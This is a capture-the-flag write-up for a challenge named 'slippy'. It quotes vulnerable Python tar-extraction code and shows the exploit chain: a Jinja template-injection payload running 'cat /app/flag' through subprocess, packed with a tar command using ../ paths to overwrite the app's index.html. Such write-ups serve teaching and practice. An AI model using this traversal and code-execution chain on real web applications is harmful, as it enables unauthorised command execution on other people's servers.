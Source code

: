 # slippy

It comes with a Dockerfile, so I'd recommend building and running a local instacne for testing. (just install docker and run the build-docker.sh script)

From looking at the source code (util.py):
```py
def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []

        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue
            
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False

```

It seems the app extracts the tar archive without sanitizing/checking where it goes. Searching python tar vulnerability comes up with some issues:

it looks like a tar exploit (https://bugs.python.org/issue21109). 

So, I could backdoor the index.html template with print flag code, then create a tar archive and upload it.

add this line of code in index.html: 
https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/
`{{ self.__init__.__globals__.__builtins__.__import__('subprocess').check_output('cat /app/flag',shell=1) }}`


(-P option in tar is to allow weird paths like / and ../)

You need to make sure you are in the correct depth (just make some deep folders and cd into them) then do this:

`tar cPzvf index.tgz ../../../templates/index.html`

then upload the archive, and refresh the page :)

